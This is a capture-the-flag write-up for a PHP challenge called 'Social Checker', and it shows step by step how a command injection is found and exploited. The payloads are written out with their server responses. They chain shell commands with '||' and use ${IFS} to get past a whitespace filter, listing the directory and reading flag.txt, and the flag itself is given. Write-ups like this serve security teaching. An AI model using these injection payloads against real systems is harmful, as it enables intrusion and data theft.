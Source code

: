 # Social Checker

## Problem Text

_Social Checker - check if your favourite social media site is online!_

```text
http://46.101.107.117:2103
```

___
Social Checker is a challenge that requires participants to exploit a PHP web application running on a server.

Upon first loading the link, we are taken to a web page with a drop down menu to select a given site to check.

Let's look at the HTML:

```html
<body>
    <h1>Social Checker</h1>
    Check if your favourite social media site is online!<br/><br/>
    <select id="url">
      <option value="twitter.com">twitter.com</option>
      <option value="facebook.com">facebook.com</option>
      <option value="linkedin.com">linkedin.com</option>
      <option value="instagram.com">instagram.com</option>
      <option value="pinterest.com">pinterest.com</option>
      <option value="tumblr.com">tumblr.com</option>
      <option value="wechat.com">wechat.com</option>
      <option value="whatsapp.com">whatsapp.com</option>
    </select><br/><br/>
    <input id="submit" type="submit" value="Check it!" onclick="javascript:doCheck();"/><br/><br/>
    <div class="box" id="result"></div>
</body>
```

From this, we can see that when the select button is clicked, it calls a JavaScript `doCheck()` function embedded in the HTML. This function is defined earlier in the source:

```javascript
function doCheck() {
    $.post("check.php", {"url": $("#url").val()}, function(data) {
    $("#result").text(data);
    });
}
```

Turns out this function is just a stub that sends a POST request to a PHP program that actually does the heavy lifting. This function also sends the selected url inside the POST data.

One of the many techniques that a hacker can use when exploiting a PHP script is command injection. PHP scripts often call system shell commands and pipe their input back for processing before sending it back to the user. These system commands are called using the `system()` function much like in C. This function accepts shell syntax, which means if the input is not sanitized before being passed to `system`, we can inject our commands by using shell syntax to chain the commands together.

We can inject these commands through the url field in the POST data, which can be done by playing around with the browser dev tools (I use Firefox). When we look at the request payload, we see this:

`url=twitter.com`

The JavaScipt function directly sends the url to be checked as a raw string. This means we can manipulate the string being sent and see what happens. Let's try sending something invalid. The script should blindly substitute it in and whatever shell command it runs will throw back an error, then we can see what the PHP script is using to check the sites.

```text
url=ls
```

So here instead of sending a URL, we send a shell command. We get this response:

```text
nc: bad address 'ls'
```

Aha! Turns out this PHP script uses netcat to check the site availability. Since we know that `system()` accepts valid shell syntax, let's try to chain commands together. We send this:

```text
url=; ls
```

Here we assume that the string passed to `system()` becomes `nc; ls`.
Since `nc` fails due to invalid input, `ls` gets executed instead and its output gets sent back to us.

We get this response:

```text
nice try - www.youtube.com/watch?v=a4eav7dFvc8
```

:(

Alright, it looks like the script is filtering out certain characters, so we need to find a workaround. Since `nc` fails, instead of using unconditional chaining, we can use the Bash OR operator. This is used to chain commands together, and causes the second command to be executed only if the first command fails. For example:

```text
$ rm thisfiledoesnotexist.txt || echo "Hi!"

rm: cannot remove 'thisfiledoesnotexist.txt': No such file or directory
Hi!

$ touch thisfilenowexists.txt || echo "Hi!"
# no output because the first command succeeded
```

So, the string we send is now this:

```text
url=instagra || ls
```

This should resolve to `nc instagra || ls` as the string passed to `system()`, so that when the first command fails, `ls` gets executed.

And this was the response:

```text
nice try - www.youtube.com/watch?v=a4eav7dFvc8
```

D:<

Alright, so it looks like either whitespace or the pipe character is also banned. Let's try it without whitespace and see what happens:

We send:

```text
url=instagra||ls
```

And we get this response:

```text
ls: 80: no such file or directory
```

Nice! Pipe characters are accepted. Also it turns out the PHP script adds the port number after the input (port 80), so `ls` took that as one of its arguments. This means we have to pass `ls` the directory as an explicit argument.

But now we have a problem. Whitespace is the main separator for command line arguments, and without it we cannot send the correct commands.

This is where shell syntax comes in handy once again. Bash has an inbuilt variable called IFS, which is used internally by the shell to split a raw input string into commands and arguments. This can be invoked by the user like any other variable. By default, this variable is a whitespace character.

So, this means this sort of thing can work:

```text
$ echo${IFS}hello

hello
```

This means that we can send a string that doesn't contain any whitespace and thus won't get rejected by the script, but when the command gets passed to Bash via `system()`, it still gets split correctly. Let's give it a try:

```text
url=insta||ls${IFS}$PWD
```

Breakdown:

- insta - Send a string that causes `nc` to fail
- `||` - Since `nc` fails, chain the command we want to execute using the condtional operator
- `ls` - the `ls` command
- `${IFS}` - the IFS variable to allow Bash to separate the arguments correctly
- `$PWD` - The present working directory

We get this response:

```text
ls: 80: No such file or directory
/htdocs:
bg.jpg
check.php
flag.txt
index.php
```

Boom! We now know the contents of the directory, and the file is staring at us right in the face. All we have to do now is send the correct command:

```text
url=insta||cat${IFS}flag.txt
```

Response (with error messages removed):

```text
he2021{1ts_fun_t0_1nj3kt_k0mmand5}
```

___
*Flag:* `he2021{1ts_fun_t0_1nj3kt_k0mmand5}`
